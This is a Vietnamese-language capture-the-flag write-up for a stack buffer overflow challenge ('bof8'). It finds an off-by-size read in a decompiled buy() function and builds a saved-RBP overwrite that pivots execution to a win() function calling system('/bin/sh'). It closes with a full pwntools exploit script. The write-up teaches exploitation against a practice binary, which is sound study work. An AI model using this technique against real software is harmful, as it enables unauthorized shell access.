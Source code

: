 **1. Tìm lỗi**

Dùng lệnh ```file``` kiểm tra:

```
bof8: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=04e644223ee70ce0b8609f4a045401870027eef4, for GNU/Linux 3.2.0, not stripped
```

---> Mở bằng IDA64 ta có:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[2]; // [rsp+Eh] [rbp-2h] BYREF

  init(argc, argv, envp);
  qword_404850 = (__int64)win;
  puts("Welcome human!");
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        puts("1. Buy");
        puts("2. Sell");
        puts("3. Exit");
        printf("> ");
        read(0, buf, 2uLL);
        if ( buf[0] != 49 )
          break;
        buy();
      }
      if ( buf[0] != 50 )
        break;
      sell();
    }
    if ( buf[0] == 51 )
      break;
    puts("Invalid choice!");
  }
  puts("Thanks for coming!");
  return 0;
}
```

Sau đó, chương trình bắt đầu vòng lặp vô hạn. Trong vòng lặp này, chương trình in ra một menu cho người dùng, cho phép họ chọn một trong ba lựa chọn: mua, bán hoặc thoát. Sau đó, chương trình đọc đầu vào từ người dùng bằng hàm read và lưu trữ vào mảng buf.

Ở đây hàm win được lưu vào địa chỉ 0x404850

Nếu người dùng chọn lựa chọn "1", chương trình gọi hàm buy để thực hiện việc mua. Nếu người dùng chọn lựa chọn "2", chương trình gọi hàm sell để thực hiện việc bán. Nếu người dùng chọn lựa chọn "3", chương trình thoát khỏi vòng lặp và in ra dòng chữ "Thanks for coming!".

Hàm ```buy```

```
__int64 buy()
{
  __int64 result; // rax
  char buf[28]; // [rsp+0h] [rbp-20h] BYREF
  int v2; // [rsp+1Ch] [rbp-4h]

  v2 = 0;
  puts("1. Apple");
  puts("2. Banana");
  puts("3. Cambridge IELTS Volumn 4");
  printf("> ");
  v2 = read(0, buf, 0x28uLL);
  result = (unsigned __int8)buf[v2 - 1];
  if ( (_BYTE)result == 10 )
  {
    result = v2 - 1;
    buf[result] = 0;
  }
  return result;
}
```

Trong hàm buy(), đầu tiên ta thấy biến result được khởi tạo để lưu trữ kết quả trả về của hàm. Sau đó, một mảng ký tự buf được khai báo với kích thước 28 byte, và được sử dụng để lưu trữ đầu vào từ người dùng.

Tiếp theo, biến v2 được khởi tạo với giá trị 0, và chương trình in ra một menu cho phép người dùng chọn mua một trong ba mặt hàng: táo, chuối hoặc sách Cambridge IELTS Volume 4. Sau đó, chương trình đọc đầu vào từ người dùng bằng hàm read và lưu trữ vào mảng buf, với giới hạn đọc là 0x28uLL (0x28 byte) nhưng biến buf được khai báo 28 byte -> Có lỗi bof.

Sau khi đọc đầu vào từ người dùng, chương trình kiểm tra ký tự cuối cùng của mảng buf. Nếu ký tự cuối cùng là dấu xuống dòng (10 trong mã ASCII), chương trình sẽ cắt bỏ ký tự này và gán giá trị 0 vào vị trí đó trong mảng buf.

Hàm ```sell```

```
int sell()
{
  return puts("I have nothing to sell");
}
```

Không có gì đặc biệt ở đây

Hàm ```win```

```
int win()
{
  return system("/bin/sh");
}
```

Thực hiện kiểm soát hệ thống.

**2. Ý tưởng**

Sử dụng save_rbp để điều hướng đến hàm win bằng cách nhập tràn biến buf ở hàm buy đến rbp rồi ghi địa chỉ chứa hàm win vào rbp.

**3. Khai thác**

```
   0x0000000000401245 <+72>:    lea    rax,[rbp-0x20]
   0x0000000000401249 <+76>:    mov    edx,0x28
   0x000000000040124e <+81>:    mov    rsi,rax
   0x0000000000401251 <+84>:    mov    edi,0x0
   0x0000000000401256 <+89>:    call   0x4010c0 <read@plt>
```

Ta thấy biến buf cách rbp 0x20 byte nên cần ghi 0x20 byte rác để đến được rbp.

Vì hàm win đang được lưu ở địa chỉ 0x404850 nên thử gán vào rbp xem như thế nào.

```
r.sendlineafter(b'> ', b'1')
payload = b'a'*32
payload += p64(0x404850)
r.sendafter(b'> ', payload)
```

Sau đó chọn chế độ 3 để thoát chương trình

```
r.sendlineafter(b'> ', b'3')
```

Đặt breakpoint ở ret của hàm main xem đã chuyển đến hàm win chưa

![win.png](photo/win.png)

Không có hàm ```win`` nào ở đây cả. Xem lại thì thấy có lệnh leave trước ret nên cần trừ cho 16 byte. Thử lại:

![stack.png](photo/stack.png)

Vẫn chưa trả về hàm ```win``` nhưng thấy được địa chỉ trả về đầu stack là ```0x404848``` nên thử thay vào.

![win1.png](photo/win1.png)

Như vậy chương trình đã return về hàm win

Ta có script như sau:

```
from pwn import *

exe = ELF('bof8', checksec = False)
r = process(exe.path)

#input()
r.sendlineafter(b'> ', b'1')
payload = b'a'*32
payload += p64(0x404848)
r.sendafter(b'> ', payload)
r.sendlineafter(b'> ', b'3')

r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)
